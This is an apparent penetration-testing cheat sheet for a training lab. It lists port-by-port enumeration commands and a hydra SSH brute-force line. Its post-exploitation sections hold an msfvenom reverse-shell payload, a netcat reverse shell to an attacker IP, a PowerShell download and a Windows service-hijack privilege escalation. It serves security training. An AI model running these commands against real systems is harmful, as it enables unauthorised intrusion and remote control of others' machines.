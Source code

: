 ## Initial Reconnaissance:
Main Nmap Scan: nmap -v -A -sS 10.11.1.X
Alternate Connect Scan: nmap -v -sT -p 0-10000 10.11.1.X

## Ports and Services:
# 21: FTP
		
Methods and Tools:
Notes:
Service version research
Google / ExploitDB from nmap scan
netcat/telnet interaction
nc 10.11.1.X 21  Commands: https://www.serv-u.com/features/file-transfer-protocol-server-linux/commands 
Nmap NSE FTP scripts
nmap -v 10.11.1.X --script “ftp*”
dotdotpwn
dotdotpwn -h 10.11.1.X -m ftp

# 22: SSH

Methods and Tools:
Notes:
Service version research
It’s almost never ssh, ExploitDB/Google 
hydra
Hydra -l user -P /usr/share/wordlists/rockyou.gz 10.11.1.X SSH


# 25: SMTP

Methods and Tools:
Notes: 
Service version research
ExploitDB/Google
Nmap NSE scripts
nmap -v 10.11.1.X --script “smtp*”
smtp-user-enum
smtp-user-enum -u username -U usernamelist.txt -t 10.11.1.X


# 53: DNS
	
Methods and Tools:
Notes:
Service version research
ExploitDB/Google
Nmap NSE scripts
nmap -v 10.11.1.X --script “dns*”
DNSenum
dnsenum URL.com


# 80/443/8080: HTTP/HTTPS

Methods and Tools:
Notes:
Service version research
ExploitDB/Google
Nmap NSE scripts
nmap -v 10.11.1.X --script “http*”
Dirbuster
GUI, /usr/share/wordlists/dirbuster
nikto
Nikto -h 10.11.1.X
Burpsuite
Webproxy, set up for Iceweasel
Curl
Data transfer, not as useful
Cadaver/davtest
Useful for webDAV stuff, more specific
Wpscan
Only for wordpress


# 110: POP3
	
Methods and Tools:
Notes:
Service version research
ExploitDB/Google
Nmap NSE scripts
nmap -v 10.11.1.X --script “pop*”
Netcat/telnet interaction
nc 10.11.1.X 110





# 135: RPC
	
Methods and Tools:
Notes:
Service version research
ExploitDB/Google
Nmap NSE scripts
nmap -v 10.11.1.X --script “rpc*”
enum4linux
enum4linux 10.11.1.X
rpcclient
rpcclient -U “” 10.11.1.X for null session

	
# 139: NETBIOS
	
Methods and Tools:
Notes:
Service version research
ExploitDB/Google
nbtscan
nbtscan -v 10.11.1.X
enum4linux
enum4linux 10.11.1.X


# 445: SMB
	
Methods and Tools:
Notes:
Service version research
ExploitDB/Google
Nmap NSE scripts
nmap -v 10.11.1.X --script “smb*”
enum4linux
enum4linux 10.11.1.X
smbclient
smbclient "//10.11.1.128/wwwroot" - Connects to smb shares mapped with enum4linux
smbmap
smbmap -u jsmith -p password1 -d workgroup -H 192.168.0.1
nbtscan
nbtscan -v 10.11.1.X




## Windows Post-Exploitation
	
General Toolkit
Method and Tools:
Notes and Links: 
Powershell File Download
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.243/test.txt','C:\test.txt)”
General File Transfer
https://blog.ropnop.com/transferring-files-from-kali-to-windows/ 
Mingw Compiling for Windows
i686-w64-mingw32-g++ -o evil.exe 37098.txt -lws2_32
Dos2unix (Gets rid of /bin/sh^5 error)
dos2unix <filename> 
Payload Encoding (On Kali) 
msfvenom -p windows/shell/reverse_tcp LHOST=10.11.0.243 LPORT=1777 -f exe -o rever.exe -e x86/shikata_ga_nai -k
Windows netcat reverse shell
nc.exe 192.168.100.113 4444 –e cmd.exe


# Privilege Escalation
	
Method and Tools:
Notes and Links:
General Guide
http://www.fuzzysecurity.com/tutorials/16.html 
Accesschk.exe
https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk 
Windows Enum
https://github.com/azmatt/windowsEnum 
WinExpSugg
https://github.com/GDSSecurity/Windows-Exploit-Suggester 
WinPrivChk
https://github.com/pentestmonkey/windows-privesc-check 
Service Privesc
sc config SSDPSRV start= “auto”
net start SSDPSRV
net start UPNPHOST
sc config upnphost binpath= “C:\shell.exe”
sc config upnphost obj= “.\LocalSystem” password= “”
net start upnphost




## Linux Post-Exploitation

General Toolkit:
Method and Tools:
Notes and Links:
Shell Cheatsheet
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet 
Shell Escape
python -c 'import pty; pty.spawn("/bin/sh")'  
File Transfer
https://www.pks.mpg.de/~mueller/docs/suse10.2/html/opensuse-manual_en/manual/sec.filetrans.copy.html 
Exploit/multi/handler
Set payload
Set LPORT
Set LHOST
Set EXITFUNC


# Privilege Escalation:

Method and Tools:
Notes and Links:
General Guide
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/ 
Exploit Suggester
https://github.com/mzet-/linux-exploit-suggester 
LinEnum*
https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh 
Unix Privesc Check
https://raw.githubusercontent.com/pentestmonkey/unix-privesc-check/master/upc.sh 
LinPrivChecker
https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py

	
	
	

